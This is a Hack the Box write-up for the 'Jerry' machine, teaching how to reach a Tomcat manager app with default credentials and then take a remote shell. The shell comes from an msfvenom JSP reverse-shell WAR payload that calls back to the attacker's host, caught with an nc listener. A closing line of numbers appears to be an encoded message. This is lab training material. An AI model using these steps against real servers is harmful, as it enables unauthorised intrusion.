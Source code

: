 ```yaml
---
title: "Jerry Machine Walkthrough"
date: 2020-08-24
tags: ["HacktheBox", "Walkthrough"]
image : "/posts/Jerry_Machine.png"
Description: "Step-by-step walkthrough of the Hack the Box Jerry Machine."
---
```

1. In a new terminal window, run `nmap -sC -sV 10.10.10.95` 
    - `-sC`: Adds on the "default" scripts to be run which include things like "Speed", "usefulness", and "Intrusiveness". You can check them out in more detail by looking under *"default"* in the **Script Categories** section on [this website](https://nmap.org/book/nse-usage.html)
    - `-sV`: Probe open ports to determine service/version info

![image](https://user-images.githubusercontent.com/44144070/90194000-0d2d2600-dd7b-11ea-95bb-7876faf2f160.png)

2. It looks like we only have one open port (8080) and it's running a service called **Apache Tomcat/Coyote JSP engine 1.1**
3. If we do a little research we find out a few things:
    - **Apache Tomcat** is [a "pure Java" HTTP web server environment in which Java code can run](https://en.wikipedia.org/wiki/Apache_Tomcat)
    - **Coyote** [is a Connector component for Tomcat that supports the HTTP 1.1 protocol as a web server](https://en.wikipedia.org/wiki/Apache_Tomcat#Coyote)
4. Being that **Apache Tomcat** (or **Tomcat** for short) provides a web-server environment, we can actually go to the website and see it.
5. Let's check it out by going to *http://10.10.10.95:8080*
    - This URL works because we know from the portscan that **Tomcat** is an http service, so we add the *"http://"* at the beginning followed by the HTB IP address, and then the *":8080"* allows us to specify the port number. All of this works together to say we want to go to the IP address *10.10.10.95* via an *http* connection at port *8080*
6. Once we get there we can see a few things:

![image](https://user-images.githubusercontent.com/44144070/90194129-6301ce00-dd7b-11ea-9ced-6de716eaae9f.png)

7. If we explore around, most of the clickable options redirect us to help pages for how to use **Tomcat**, with the exception of the *Server Status*, *Manager App*, and *Host Manager*. If we click on any of those three we get this pop-up:

![](https://user-images.githubusercontent.com/44144070/90194521-5d58b800-dd7c-11ea-83e6-e5d31cadc18c.png)

8. So it's asking us for credentials that we don't know. Before trying to set up any complicated password breaking attacks, I find it a good idea to try at least a few of the basics. Some of these include *admin:admin*, *admin:password*, *admin:pass*, etc, (where *admin* stands for *administrator* in the hopes that with these credentials we can log into the account with the most privileges)
9. If we try *admin:admin* on the *Server Status* feature it works! And we end up looking at a page like this:

![](https://user-images.githubusercontent.com/44144070/90194585-7e210d80-dd7c-11ea-841d-bdb63ee97243.png)

10. This page has a bunch of information about **Tomcat** and this particular server it's running on. Unfortunately, aside from telling us a little bit more about the server, it doesn't help us get any closer finding a vulnerability
11. Lets go back and try a different option to see if we can find something more useful. If we go back to the main page and click on *Manager App* however, we get this 403 error message (you may have also gotten a similar 401 error message earlier if you had clicked *Cancel* or exited out of the username password prompt):
    - The 401 error is a result of the website thinking we are attempting to access a page without giving credentials when we exit out of the login pop-up, and the 403 error is when we are logged in with credentials, but then try and access a page that we don't have privileges to

![](https://user-images.githubusercontent.com/44144070/90194659-985aeb80-dd7c-11ea-9e8a-7baee5498d7c.png)

12. This error message is very interesting though, if we read it, we find that it gives us instructions on how to set up a manager account, with example credentials *tomcat:s3cret*. Now what often happens is that people will follow these instructions exactly (same way you might go about changing a password for a website), however, if the service doesn't check for (or the user doesn't remember to change) the example credentials, then we may be able to use them to sign into our administrator account
13. To be able to try this new idea though, we first need to be able to get our pop-up back to retry our credentials, and as you probably noticed, **Tomcat** will only show us error messages instead. To fix this, we need to go to *Preferences* -> *Privacy & Security* -> *History* and clear our history (there should be options as to how far back you want to erase your history if you don't want to delete everything):

![](https://user-images.githubusercontent.com/44144070/90194719-bd4f5e80-dd7c-11ea-8481-5a6832331cfd.png)
- The reason this works, is because every time we attempt to log in, the website takes our credentials, encodes them, and puts them in what's called a "header". This header is read by the website and if it matches the proper credentials, then it will allow us to access the content. If it doesn't match, then the website will react with an error message. Most browsers save our most recent credentials or headers on websites, so by clearing our history, we can clear them which allows us to try again.
14. Once we've done that, we can go back, click on *Manager App* and our pop-up is back!
15. If we try *tomcat:s3cret* it works and we get this page:

![](https://user-images.githubusercontent.com/44144070/90194758-d35d1f00-dd7c-11ea-808c-aef11f8837b5.png)

16. If we explore around a little we'll find a section called *"WAR file to deploy"*, and this is what we're going to want to look at, because chances are if we have the ability to upload something, we can make that something do what we want

![](https://user-images.githubusercontent.com/44144070/90194805-ecfe6680-dd7c-11ea-8743-f0b840a6c14c.png)

- So what even is a WAR file?
    - A WAR (Web Application Resource) file is like a ZIP file in the sense that it is actually a collection of other files compressed together. However unlike ZIP files, WAR files are comprised solely of [JAR](https://en.wikipedia.org/wiki/JAR_(file_format)) files meant to hold resources to create a website
17. Now before we start trying to write our own WAR file, lets check if we have any tools that might have something already written
18. One way we can check is by using a program called **MsfVenom**, a payload generator for **Metasploit**
19. Since we know WAR files are a collection of JSP/Java files, lets see what payload options  **MsfVenom** has with `msfvenom -l payloads | grep java`
    - The `msfvenom -l payloads` will list all of the payloads **MsfVenom** can produce, but since there are so many we'll want to reduce our results by pipelining the results through `grep java` which filters all the results and shows us only the ones with the word "java" in it

![](https://user-images.githubusercontent.com/44144070/90194897-1ae3ab00-dd7d-11ea-8596-af7405e332d4.png)

20. Taking a look at these results, we can narrow it down by figuring out what else we want, JSP (because it's a WAR file), a reverse shell (check out the first bit of [this article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) to understand why), and a tcp connection (as we determined from our portscan). This leaves us with the *"java/jsp_shell_reverse_tcp"* option
21. To create our WAR file to upload to **Tomcat**, we'll run `msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourHtbIp LPORT=openPort -f war > aName.war`. Now that's a big command with a lot of fill-in-the-blanks so let's break it down:
    - `msfvenom`: We are using **MsfVenom** to create our program and this calls it
    - `-p java/jsp_shell_reverse_tcp`: This indicates that we want to create a <ins>**p**</ins>ayload in *java* that will create a *JSP Reverse Shell* using a *TCP* connection
    - `LHOST=yourHtbIp`: Setting the local host by replacing "yourHtbIp" with your Hack the Box IP (can be found in the **Access** tab when signed into your HTB account)
    - `LPORT=openPort`: Setting the port to be used for the reverse shell connection
    - `-f war`: Setting the <ins>**f**</ins>ormat of the payload to be a WAR file
    - `> aName.war`: Replace "aName" with whatever you want to name your payload file
22. You'll want to run your version of the command, and after a few moments you'll get a message saying the size of the file, and if we type `ls` we can see our file!

![](https://user-images.githubusercontent.com/44144070/90195123-8d548b00-dd7d-11ea-8e9f-ab9c211396e3.png)

23. So let's go ahead and upload our WAR file to **Tomcat** by clicking *"Browse"* in the *"WAR file to deploy"* section, and once we see our file in there, click *"Deploy"*

![](https://user-images.githubusercontent.com/44144070/90195193-ad844a00-dd7d-11ea-8818-d64676277795.png)

24. If you did it right, you should see your file sorted in alphabetically with the other preexisting files:

![](https://user-images.githubusercontent.com/44144070/90195220-bbd26600-dd7d-11ea-9d35-9c0a13684bc1.png)

25. Before we do anything with it though, since we learned a Reverse Shell relies on a "listener" running on our device for our victim to connect to with a shell, we need to set up a listener with `nc -lvnp yourLPORT`
    - `-lvnp` is short for `-l -v -n -p` and specifies four things:
        - `-l`: Listen for incoming traffic
        - `-v`: Be verbose (give details of what is going on in the process)
        - `-n`: No DNS lookups are required (it saves time and makes the command simpler)
        - `-p`: Specifies a specific port to be listening on (which is why you need to put an open port after to be listening on)
26. Once we do that, we should get this response showing that our "listener" is ready

![](https://user-images.githubusercontent.com/44144070/90195262-d86e9e00-dd7d-11ea-8a05-c4e79114cbe1.png)

27. Let's go ahead and activate our WAR file by clicking on it in **Tomcat**, and if we check our listener, we have a shell!

![](https://user-images.githubusercontent.com/44144070/90195317-f50ad600-dd7d-11ea-89fa-bb44e930cd29.png)

28. Since we're in a new shell, we'll want to check out the *help* page to see what the commands are by running `help`

![](https://user-images.githubusercontent.com/44144070/90195340-0522b580-dd7e-11ea-935d-8235bb2c27dc.png)

29. We can see all of the commands and what they do in this shell, the main ones that concern us will be that the command `dir` replaces `ls` and `cat` is replaced with `type`
30. If we navigate around using these commands, we'll find a file in *Users/Administrator/Desktop/flags* called *"2 for the price of 1.txt"*

![](https://user-images.githubusercontent.com/44144070/90195404-25eb0b00-dd7e-11ea-9184-ac1fbf931ffc.png)

31. If we run `type "2 for the price of 1.txt"`, then we can see our user and root hashes and enter them to get our points!


## Resources
- [Official Jerry Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/144)
- [Jerry Video Tutorial from IppSec](https://youtu.be/PJeBIey8gc4)
- [Jerry Write-Up by 0xRick](https://0xrick.github.io/hack-the-box/jerry/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)
- [Information on Apache Tomcat](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Information on NetCat Commands](https://www.varonis.com/blog/netcat-commands/)
- [Information on WAR files](https://en.wikipedia.org/wiki/WAR_(file_format))


###### <font size="1">78 97 39 77 104 111 105 39 67 104 98 32 116 39 111 98 102 99 39 116 119 107 110 115 116 39 104 119 98 105 39 102 105 99 39 102 39 82 65 72 39 116 111 104 114 107 99 39 97 107 126 39 104 114 115 43 39 78 39 112 102 105 115 39 126 104 114 39 115 104 39 111 102 113 98 39 98 127 119 98 100 115 98 99 39 110 115</font>
